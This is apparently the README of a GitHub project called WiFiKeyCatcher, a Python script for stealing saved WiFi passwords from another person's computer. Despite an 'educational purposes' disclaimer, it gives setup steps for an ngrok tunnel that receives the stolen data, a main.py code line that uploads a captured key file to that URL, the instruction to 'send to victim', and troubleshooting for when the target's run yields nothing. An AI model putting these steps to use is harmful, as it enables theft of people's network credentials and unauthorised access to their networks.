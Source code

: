 <p align="center">
  <img src="https://logos-world.net/wp-content/uploads/2022/03/Wi-Fi-Logo.png"/>
</p>
 <h3><p align="center">
    ⚠️ Disclaimer: This repository is intended for educational purposes exclusively. I bear no responsibility for any illicit or unauthorized use of this project.
</p></h3>
</p>
<p align="center">
  <img src="https://img.shields.io/badge/Version-0.0.1-green" alt=""/>
  <img src="https://img.shields.io/badge/Written in-Python-blue" alt=""/>
  <img src="https://img.shields.io/badge/Author-Ibn Aleem-red" alt=""/>
</p>

# Setup
1. Clone this repository:
```
$ git clone https://github.com/ibnaleem/WiFiKeyCatcher.git
```
2. Run `HTTPServer`:
```
$ py -m http.server
```
3. [Install ngrok](https://ngrok.com/download)
4. Configure auth-token in terminal:
```
$ ngrok config add-authtoken <token>
```
5. Start tunnel on port 8000:
```
$ ngrok http 8000
```
If successful, you should see all of your system directories as embeded links.

6. Copy ngrok URL and paste into `main.py` (line 52):
```python
url = "https://ngrok-url-here"
files = {'file': open(f'{curr_path}.txt', 'rb')}
```

Save and send to victim. Note: ngrok must be running to obtain WiFi-Keys

#### Target Ran Script, Nothing Received
Make sure your target has Python installed, and you're running HTTP server + ngrok
